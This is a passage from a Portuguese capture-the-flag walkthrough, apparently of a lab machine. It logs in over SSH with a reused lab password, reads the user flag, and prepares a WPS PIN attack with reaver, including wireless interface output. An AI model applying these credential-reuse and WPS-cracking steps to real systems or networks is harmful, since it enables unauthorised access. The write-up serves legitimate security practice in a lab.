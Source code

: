note que a senha **VeRyUniUqWiFIPasswrd1!** aparece em mais de um lugar. Lembra que o nmap mostrou várias portas abertas? Entre elas a porta 22, iremos agora fazer um login via ssh na porta 22. Usando o usuário **netadmin** e a senha **VeRyUniUqWiFIPasswrd1!**, (demorou muito para perceber isso, veja a live).

```shell
ssh netadmin@10.10.11.247
```

![Loggin via ssh com o usuário netadmin](screenshots/image-4.png)

próximo passo é ver o que temos nesse diretório. Para isso use o comando ls.

```shell
ls
```

e achamos nossa primeira flag que é o arquivo user.txt, para ver o conteúdo, use o comando cat.

```shell
cat user.txt
```

O próximo passo é explorar a vulnerabilidade **WPS**, para isso iremos usar um exploit que já tem instalado nessa máquina: **reaver**. Na documentação do [reaver](https://github.com/t6x/reaver-wps-fork-t6x), é mostrado que para explorar essa falha é necessário usar o seguinte comando:

```shell
reaver -i wlan0mon -b 00:90:4C:C1:AC:21
```

em que **-i** é a interface e **-b** é o bssid do alvo, para descobrir isso, iremos usar:

```shell
iwscan list
```

![iwscan list](screenshots/image-5.png)

o valor **Address: 02:00:00:00:00:00** é o resultado que queremos. E iremos usar o comando **iwconfig**.

```shell
 iwconfig
```

resultado

```shell
hwsim0    no wireless extensions.

lo        no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
wlan2     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
eth0      no wireless extensions.

wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```